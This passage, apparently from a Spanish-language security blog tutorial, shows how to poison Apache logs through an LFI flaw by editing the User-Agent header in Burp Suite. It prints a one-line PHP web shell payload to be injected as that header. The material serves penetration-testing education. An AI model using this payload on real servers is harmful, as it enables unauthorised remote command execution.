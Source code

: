 > **Tip:** Los logs tienden a ser enormes, y cargarlos en una vulnerabilidad LFI puede tomar mucho tiempo, o incluso crashear el servidor en el peor de los casos. Ten cuidado y sé eficiente con ellos en un entorno de producción.
{: .prompt-notice}

### Envenenando con Burp Suite

Interceptamos una petición LFI y modificamos el header User-Agent:

![Burp Suite Poisoning](/assets/img/posts/log-poisoning/burp-poisoning.png)
_Modificación del User-Agent header para envenenamiento de logs_

Como se esperaba, nuestro valor personalizado de User-Agent es visible en el archivo de log incluido.

### Inyectando Web Shell

Ahora envenenamos el log configurando el User-Agent a un web shell PHP básico:

```http
User-Agent: <?php system($_GET['cmd']); ?>
```

![Log Web Shell](/assets/img/posts/log-poisoning/log-webshell.png)
_Inyección de web shell en el log de Apache_
